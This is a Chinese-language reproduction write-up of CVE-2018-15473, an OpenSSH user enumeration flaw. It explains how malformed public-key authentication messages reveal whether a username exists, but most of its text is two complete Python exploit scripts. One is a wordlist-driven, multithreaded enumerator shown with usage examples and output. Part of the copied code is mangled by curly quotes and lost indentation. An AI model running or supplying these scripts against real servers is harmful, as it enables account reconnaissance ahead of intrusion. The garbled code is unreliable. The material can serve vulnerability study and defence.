# （CVE-2018-15473）OpenSSH 用户枚举漏洞

## 一、漏洞简介

OpenSSH（OpenBSD安全外壳）是OpenBSD计划组的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听，连接劫持以及其他网络级OpenSSH 7.7及之前版本中存在信息中断。该漏洞源于网络系统或产品在运行过程中存在配置等错误。未授权的攻击者可以利用入侵获取组件敏感信息。

## 二、漏洞影响

OpenSSH < 7.7

## 三、复现过程

这个漏洞存在于OpenSSH所实现的一些认证功能之中，首先我们一起看一看Ubuntu OpenSSH的公共密钥认证漏洞。

通过向一台OpenSSH服务器发送恶意的公共密钥认证消息，攻击者将能够获取特定的用户名信息。如果用户不存在，服务器将会向客户端发送认证失败的消息。如果用户存在，消息将无法解析并终止通信，即通信连接会在没有任何消息回传的情况下断开。关于该漏洞的漏洞利用代码可以从这个Python PoC脚本中获取：

```
#!/usr/bin/env python

# Copyright © 2018 Matthew Daley

# Permission is hereby granted, free of charge, to any person obtaining a copy

# of this software and associated documentation files (the “Software”), to

# deal in the Software without restriction, including without limitation the

# rights to use, copy, modify, merge, publish, distribute, sublicense, and/or

# sell copies of the Software, and to permit persons to whom the Software is

# furnished to do so, subject to the following conditions:

# The above copyright notice and this permission notice shall be included in

# all copies or substantial portions of the Software.

# THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR

# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,

# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE

# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER

# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING

# FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS

# IN THE SOFTWARE.

import argparse

import logging

import paramiko

import socket

import sys

class InvalidUsername(Exception):

pass

def add_boolean(*args, **kwargs):

pass

old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[

paramiko.common.MSG_SERVICE_ACCEPT]

def service_accept(*args, **kwargs):

paramiko.message.Message.add_boolean = add_boolean

return old_service_accept(*args, **kwargs)

def userauth_failure(*args, **kwargs):

raise InvalidUsername()

paramiko.auth_handler.AuthHandler._handler_table.update({

paramiko.common.MSG_SERVICE_ACCEPT: service_accept,

paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure

})

logging.getLogger(‘paramiko.transport’).addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()

arg_parser.add_argument(‘hostname’, type=str)

arg_parser.add_argument(’–port’, type=int, default=22)

arg_parser.add_argument(‘username’, type=str)

args = arg_parser.parse_args()

sock = socket.socket()

try:

sock.connect((args.hostname, args.port))

except socket.error:

print ‘[-] Failed to connect’

sys.exit(1)

transport = paramiko.transport.Transport(sock)

try:

transport.start_client()

except paramiko.ssh_exception.SSHException:

print ‘[-] Failed to negotiate SSH transport’

sys.exit(2) `try:

transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))

except InvalidUsername:

print ‘[*] Invalid username’

sys.exit(3)

except paramiko.ssh_exception.AuthenticationException:

print ‘[+] Valid username’` 
```

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：



然后用已存在的有效用户名运行PoC脚本：



在服务器端将会查看到错误提示：



相关错误信息还可以在/var/log/auth.log中找到：


如果无法正确解析消息，会导致客户端跟服务器端之间的通信中断，而且中断时不会收到服务器发送的提示信息：



注意粉红色标记的最后一个数据包（客户端数据包），这里没有后续的蓝色数据包（服务器数据包）。

当PoC脚本以不存在的用户名运行之后：


不会弹出“imcomplete message”错误提示：





注意通信数据结尾处的蓝色服务器数据包。

这就是该漏洞（公共密钥认证漏洞）暴露有效用户名的整个流程了。

其中，userauth_pubkey函数是认证功能所实现的其中一个函数，专门用于根据公共密钥来完成身份验证。如果认证失败，则返回“0”，成功则返回“1”。当服务器端接收到了SSH2_MSG_USERAUTH_REQUEST请求后，便会调用该函数，之后的结果会用来给客户端回传SSH2_MSG_USERAUTH_FAILURE或SSH2_MSG_USERAUTH_SUCCESS消息。



该函数的运行逻辑为：

> \1\. 如果用户名不存在：返回“0”；
> 
> \2\. 如果用户名存在但密钥错误：返回“0”；
> 
> \3\. 如果用户名存在且密钥正确：返回“1”；

但是有人发现，我们竟然可以在第一步和第二步中间终止userauth_pubkey函数的运行。第一步执行完后，userauth_pubkey函数会从客户端获取消息字符串，如果获取失败（恶意字符串导致），整个过程都会终止，并在不发送任何回传消息的情况下关闭连接。

packet_get_string所导致的情况如下：



如果用户名存在，第一步会在程序从消息域中提取完数据后进行。

第一个提取的数据域是一个布尔值（1字节），对应函数为packet_get_char()。如果认证类型为publickey，返回值就是“1”。后续跟着的是两个字符串：算法和密钥。在SSH消息中，字符串会以一个“长度-值“键值对进行编码，一个字符串为4个字节。

函数packet_get_string可以从消息中提取字符串，并对其进行验证，这个函数还需要依赖另一个函数：ssh_ssh_packet_get_string。


ssh_packet_get_string函数会调用sshpkt_get_string函数，如果返回的值不是“0”，它还会调用fatal函数。函数fatal会记录致命的错误事件，然后终止生成的OpenSSH进程（不回传任何错误信息）。



接下来会执行sshpkt_get_string函数并调用sshbuf_get_string函数：


然后sshbuf_get_string函数会调用sshbuf_get_string_direct：



然后sshbuf_get_string_direct会调用sshbuf_peek_string_direct:



最后，sshbuf_peek_string_direct会进行字符串验证：



如果消息中剩余数据小于4字节，或者说消息中的剩余数据小于字符串长度，则会返回SSH_ERR_MESSAGE_INCOMPLETE 错误消息。这就是我们之前那个Python PoC脚本所要触发的东西。首先，它会跟OpenSSH服务器建立一条加密的通信链接，然后向其发送恶意的SSH2_MSG_USERAUTH_REQUEST消息。通过重定义add_boolean函数，消息中的布尔值域会被忽略。

当函数userauth_pubkey解析了恶意消息之后，首先会读取布尔值域，由于这个域其实是不存在的，因此读取的会是下一个域（函数packet_get_char）：加密算法字符串的4字节长度值。然后调用下一个函数packet_get_string来读取加密算法字符串。

下面是解析合法消息的过程：



下面是解析恶意消息的过程：



结果就是，代码解析了一个1907字节的字符串（十六进制为0×00000773），这比整个消息的长度还要长，这会导致ssh_packet_get_string调用fatal函数，并中断OpenSSH进程。

### poc补充

> 不知道为什么上面那个poc运行就报错了。这里找了一个能用的poc

> ## Examples
> 
> A single username
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
> [+] epi found! 
> ```
> 
> Use a wordlist with 10 threads (the default is 4)
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
> [+] avahi found!
> [+] avahi-autoipd found!
> [+] backup found!
> [+] daemon found!
> [+] bin found!
> ------8<------ 
> ```
> 
> IPv6 Address on port 2222 and INCREASED VERBOSITY!
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
> [-] 4Dgifts not found
> [-] demo not found
> [-] checkfs not found
> [-] anon not found
> [-] EZsetup not found
> [-] auditor not found
> [-] demos not found
> [-] OutOfBox not found
> [-] checkfsys not found
> [+] avahi found!
> [-] diag not found
> [-] ROOT not found
> [-] checksys not found
> [-] cmwlogin not found
> [+] avahi-autoipd found!
> ------8<------ 
> ```

> **requirements.txt**
> 
> asn1crypto==0.24.0
> bcrypt==3.1.4
> cffi==1.11.5
> cryptography==2.3.1
> idna==2.7
> paramiko==2.4.1
> pyasn1==0.4.4
> pycparser==2.18
> PyNaCl==1.2.1
> six==1.11.0

```
#!/usr/bin/env python3
"""
derived from work done by Matthew Daley
https://bugfuzz.com/stuff/ssh-check-username.py
props to Justin Gardner for the add_boolean workaround
CVE-2018-15473
--------------
OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an
invalid authenticating user until after the packet containing the request has been fully parsed, related to
auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c.
Author: epi
    https://epi052.gitlab.io/notes-to-self/
    https://gitlab.com/epi052/cve-2018-15473
"""
import sys
import re
import socket
import logging
import argparse
import multiprocessing
from typing import Union
from pathlib import Path

import paramiko

assert sys.version_info >= (3, 6), “This program requires python3.6 or higher”

class Color:

“”" Class for coloring print statements.  Nothing to see here, move along. “”"

BOLD = ‘\033[1m’

ENDC = ‘\033[0m’

RED = ‘\033[38;5;196m’

BLUE = ‘\033[38;5;75m’

GREEN = ‘\033[38;5;149m’

YELLOW = ‘\033[38;5;190m’

```
@staticmethod
def string(string: str, color: str, bold: bool = False) -&gt; str:
    """ Prints the given string in a few different colors.
    Args:
        string: string to be printed
        color:  valid colors "red", "blue", "green", "yellow"
        bold:   T/F to add ANSI bold code
    Returns:
        ANSI color-coded string (str)
    """
    boldstr = Color.BOLD if bold else ""
    colorstr = getattr(Color, color.upper())
    return f'{boldstr}{colorstr}{string}{Color.ENDC}' 
```

class InvalidUsername(Exception):

“”" Raise when username not found via CVE-2018-15473\. “”"

def apply_monkey_patch() -> None:

“”" Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.

patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict

_parse_service_accept

_parse_userauth_failure

_handler_table = {

MSG_SERVICE_REQUEST: _parse_service_request,

MSG_SERVICE_ACCEPT: _parse_service_accept,

MSG_USERAUTH_REQUEST: _parse_userauth_request,

MSG_USERAUTH_SUCCESS: _parse_userauth_success,

MSG_USERAUTH_FAILURE: _parse_userauth_failure,

MSG_USERAUTH_BANNER: _parse_userauth_banner,

MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,

MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,

}

“”"

```
def patched_add_boolean(*args, **kwargs):
    """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """

auth_handler = paramiko.auth_handler.AuthHandler
old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

def patched_msg_service_accept(*args, **kwargs):
    """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
    old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
    retval = old_msg_service_accept(*args, **kwargs)
    paramiko.message.Message.add_boolean = old_add_boolean
    return retval

def patched_userauth_failure(*args, **kwargs):
    """ Called during authentication when a username is not found. """
    raise InvalidUsername(*args, **kwargs)

auth_handler._client_handler_table.update({
    paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
    paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
}) 
```

def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:

“”" Small helper to stay DRY.

Returns:

socket.socket or None

“”"

# spoiler alert, I don’t care about the -6 flag, it’s really

# just to advertise in the help that the program can handle ipv6

try:

return socket.create_connection((hostname, port))

except socket.error as e:

print(f’socket error: {e}’, file=sys.stdout)

def connect(username: str, hostname: str, port: int, verbose: bool = False, **kwargs) -> None:

“”" Connect and attempt keybased auth, result interpreted to determine valid username.

Args:

username:   username to check against the ssh service

hostname:   hostname/IP of target

port:       port where ssh is listening

key:        key used for auth

verbose:    bool value; determines whether to print ‘not found’ lines or not

Returns:

None

“”"

sock = create_socket(hostname, port)

if not sock:

return

```
transport = paramiko.transport.Transport(sock)

try:
    transport.start_client()
except paramiko.ssh_exception.SSHException:
    return print(Color.string(f'[!] SSH negotiation failed for user {username}.', color='red'))

try:
    transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
except paramiko.ssh_exception.AuthenticationException:
    print(f"[+] {Color.string(username, color='yellow')} found!")
except InvalidUsername:
    if not verbose:
        return
    print(f'[-] {Color.string(username, color="red")} not found') 
```

def main(**kwargs):

“”" main entry point for the program “”"

sock = create_socket(kwargs.get(‘hostname’), kwargs.get(‘port’))

if not sock:

return

```
banner = sock.recv(1024).decode()

regex = re.search(r'-OpenSSH_(?P&lt;version&gt;\d\.\d)', banner)
if regex:
    try:
        version = float(regex.group('version'))
    except ValueError:
        print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {regex.group("version")}')
    else:
        ver_clr = 'green' if version &lt;= 7.7 else 'red'
        print(f"[+] {Color.string('OpenSSH', color=ver_clr)} version {Color.string(version, color=ver_clr)} found")
else:
    print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {Color.string(banner, color="yellow")}')    

apply_monkey_patch()

if kwargs.get('username'):
    kwargs['username'] = kwargs.get('username').strip()
    return connect(**kwargs)

with multiprocessing.Pool(kwargs.get('threads')) as pool, Path(kwargs.get('wordlist')).open() as usernames:
    host = kwargs.get('hostname')
    port = kwargs.get('port')
    verbose = kwargs.get('verbose')
    pool.starmap(connect, [(user.strip(), host, port, verbose) for user in usernames]) 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=“OpenSSH Username Enumeration (CVE-2018-15473)”)

```
parser.add_argument('hostname', help='target to enumerate', type=str)
parser.add_argument('-p', '--port', help='ssh port (default: 22)', default=22, type=int)
parser.add_argument('-t', '--threads', help="number of threads (default: 4)", default=4, type=int)
parser.add_argument('-v', '--verbose', action='store_true', default=False,
                    help="print both valid and invalid usernames (default: False)")
parser.add_argument('-6', '--ipv6', action='store_true', help="Specify use of an ipv6 address (default: ipv4)")

multi_or_single_group = parser.add_mutually_exclusive_group(required=True)
multi_or_single_group.add_argument('-w', '--wordlist', type=str, help="path to wordlist")
multi_or_single_group.add_argument('-u', '--username', help='a single username to test', type=str)

args = parser.parse_args()

logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

main(**vars(args)) 
``` 
```

## 参考链接

> https://www.freebuf.com/vuls/184583.html